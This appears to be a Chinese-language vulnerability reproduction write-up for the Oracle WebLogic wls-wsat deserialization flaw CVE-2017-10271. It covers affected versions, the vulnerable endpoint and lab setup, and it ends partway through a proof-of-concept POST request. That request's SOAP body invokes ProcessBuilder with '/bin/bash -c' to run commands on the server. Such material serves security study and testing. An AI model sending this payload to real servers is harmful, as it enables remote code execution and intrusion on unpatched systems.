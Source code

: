 
2018年1月1日-3日大面积爆发的基于CVE-2017-10271的Java反序列化漏洞植入门罗币挖矿程序攻击的事件被大家所熟知，这个漏洞的前身是`CVE-2017-3506`，都是来源于`wls-wsat` 这个组件，oracle官方就该漏洞发布的补丁，采用了黑名单的修复方式，没有彻底将该漏洞进行修复。攻击人员只是将用于CVE-2017-3506漏洞的exp脚本简单修改一下，就又能攻击利用了，才有了后来的CVE-2017-10271。

**影响版本**

- weblogic ：
  - 10.3.6.0, 12.1.3.0, 12.2.1.0, 12.2.1.1 , 12.2.1.2

**原理简析**
- 漏洞触发位置：`wls-wsat.war`
- 漏洞触发URL：`/wls-wsat/CoordinatorPortType（POST）`
- 漏洞的本质：构造SOAP（XML）格式的请求，在解析的过程中导致XMLDecoder反序列化漏洞。


**漏洞复现**

1. 安装weblogic

[下载地址](https://www.oracle.com/middleware/technologies/weblogic-server-installers-downloads.html)

这里选择存在漏洞版本:

- Oracle WebLogic Server 10.3.6

2. 安装java

[下载地址](https://www.oracle.com/java/technologies/javase-downloads.html)

建议安装 java 1.8.0


**漏洞利用**

1. 访问目标url `http://192.168.xxx.xxx:7001/wls-wsat/CoordinatorPortType` 存在以下页面即可能存在该漏洞。

![](img/3.png)

2. linux环境下 测试poc

**poc**

```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: xxxxxxx:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 633

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
```